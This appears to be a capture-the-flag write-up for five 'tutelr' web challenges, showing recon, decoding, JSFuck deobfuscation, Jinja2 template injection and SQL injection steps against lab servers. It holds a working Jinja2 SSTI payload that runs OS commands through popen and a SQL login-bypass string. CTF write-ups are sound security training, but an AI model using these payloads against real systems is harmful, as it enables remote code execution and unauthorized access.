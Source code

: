 # Inspector

```
We got information from our intel that the rival spy's web dev team has mistankingly left some critical information hidden on there website.

Your Mission - Extract the hidden info, decode the messages using your observation skills. Good Luck, Agent.

http://137.184.248.161
```

### Soln

- downloaded src code with `wget -r`

![image](https://github.com/heapbytes/tutelr-ctf-writeups/assets/56447720/1c5acab2-71ba-4040-88d6-2fb58a395fa2)

- found 3 parts
- after a while when i didn't get anything
- i ffuf'd the website and found `http://137.184.248.161/assets/robots.txt`
- 4th part:
    - ![image](https://github.com/heapbytes/tutelr-ctf-writeups/assets/56447720/a42ad079-0672-4750-a118-a98d860d7203)
      
- concating them & decoding with base64 gives us **flag**


# Hunting the Head

```
Whispers have been circulating on the streets that there is a high amount of traffic coming to a webpage from many ex-convicts. The local PD tried investigating the webpage but got nothing and recently the traffic on the webpage and drugs on the streets have increased exponentialy.

Mission - Find what the hell is going on asap, the streets are getting flooded by junkies.

http://206.189.155.222
```

### Soln

- the chall title was a hint
- saw headers
  
```bash
┌─[ ~/stuff/ctf/tutuelr/rev] [ 192.168.1.15]
└─➜ curl -vv http://206.189.155.222/                                                                                                                                                     [1]
*   Trying 206.189.155.222:80...
* Connected to 206.189.155.222 (206.189.155.222) port 80

<<--SNIPPED-->>

< Secret: EFE6=CL9bc50f_0f9b09bc5bCN
< Vary: Accept-Encoding
< Content-Length: 492
< Content-Type: text/html;charset=UTF-8
<<--SNIPPED-->>
```
- Secret: `EFE6=CL9bc50f_0f9b09bc5bCN`

- it's rot47

![image](https://github.com/heapbytes/tutelr-ctf-writeups/assets/56447720/c581e408-bf25-4ac9-8a93-abcbc88a62a0)

- Although it's half flag, we can guess the prefix

# Client Fuck

```
Today we got a call from Mr. Charlie ( your old partner ) who was investigating the japanese gang Oni Reapers. He send us a ip and a text file. The ip points to his database, but text file contains buch of gibrish in it. Well, he told us that his cover has been blown and he is going underground for sometime and also to give the ip and text file to you and you will know what to do.

http://157.245.148.142
```

### Soln

- The chall title was a hint, also if you open the given file you can tell it's js fuck lang
- https://www.dcode.fr/jsfuck-language
- intresting line:
    - `var expectedPassword1 = "a2V5IHRvIGZsYWc=";`

- base64 -d

![image](https://github.com/heapbytes/tutelr-ctf-writeups/assets/56447720/df9f6b82-83f8-4fb3-aa12-57d289fec579)

# SHELLing TEMPLATE

```
Yesterday our secure web communication channel was compromised by rival spies. The sever was put down and is now quarantined, we need this communication channel back running.

Mission - Find the vulnerability on the website.

http://167.172.7.17
```

### Soln

- the title was a hint
- ssti payloads : https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
- Payload: (you can change and do ls to find flag location)
    - ```bash
      {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat secret/.flag.txt").read()}}{%endif%}{% endfor %}
        ```
      
![image](https://github.com/heapbytes/tutelr-ctf-writeups/assets/56447720/f47cebfe-351c-4e3d-be2a-0953366e2c04)



# Maria Inject

```
We have a encrypted key which you need to decrypt so we can use it to get the info about the last bombing case.

Encryption Info :- we got the encrypted file checked its aes-256-cbc encryption algorithm.

We were also able to snoop traffic and get a ip to a website which seems suspicious,
it might hold the secret for decrypting the key. 128.199.237.99

nc 157.245.148.142 12345
```

### Soln

- The chall title had a hint of sqli
- username : `admin' or 1=1-- -`, password: `this is commented anyway, so anything works`
- found a pass
  
```bash
Username: flag bearer
Special Password: keua4@8sjyyIa@76Tsjkk
```

- the desc had a hint of aes-256-cbc
- Tried it with the given file and it worked

```bash

└─➜ cat key.txt | base64                                                                                                                                                        [130]
U2FsdGVkX193Fuq6TnlXrXBNK7PNRq4TapDD7Q9mnbiLYiWAeYSOUGlKEBUXwRLh
```

![image](https://github.com/heapbytes/tutelr-ctf-writeups/assets/56447720/ca246b99-6cfe-42c8-a44d-aaf38d366c95)

- And now let's give this in the nc 

```bash
└─➜ nc 157.245.148.142 12345                                                                                                                                                             [1]

Enter the Key to Get the Info.

 [+] Input - y0uw0n7-b34bl370-6u355_m3
 [=] You got it right! Here is your flag - tutelr{5ql1_0n_7h3_m4r14db_f33l5_d1ff3r3n7}.

```



